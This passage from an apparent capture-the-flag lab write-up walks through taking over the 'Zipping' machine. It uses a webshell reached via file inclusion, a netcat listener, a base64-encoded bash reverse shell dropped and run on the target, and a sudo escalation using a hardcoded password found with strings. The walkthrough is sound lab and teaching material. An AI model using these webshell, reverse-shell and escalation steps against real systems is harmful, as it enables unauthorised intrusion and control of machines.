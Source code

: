 So we can use [zipping.htb/shop/index.php?page=/var/lib/mysql/webshell](http://zipping.htb:80/shop/index.php?page=/var/lib/mysql/webshell) to visit our webshell, and use the `0` param to send commands!

Visiting [zipping.htb/shop/index.php?page=/var/lib/mysql/webshell&0=whoami](http://zipping.htb:80/shop/index.php?page=/var/lib/mysql/webshell&0=whoami) gives us `rektsu`!

Now, I had a bit of trouble getting a reverse shell with the webshell so I ended up doing it like this:

I setup a listener on my host:

```
$ nc -lvnp 4445
```

I get a [bash reverse shell](https://revshells.com) and base64 encoded it. I then run all the commands in order on the server.

```
echo "<b64 encoded bash reverse shell>" | base64 -d > /home/rektsu/revshell.sh
chmod +x /home/rektsu/revshell.sh
bash /home/rektsu/revshell.sh
```

and I got my reverse shell!

```
Connection from 10.10.11.229:36792
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$
```

## Root Flag

Looking at the `sudo -l` we are given an entry:

```
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Executing the binary prompts a password.

```
$ sudo /usr/bin/stock
Enter the password:
```
Running `strings /usr/bin/stock` lists the strings in the binary, and there is a particular one of interest:

`St0ckM4nager`

Using this as the password works successfully!
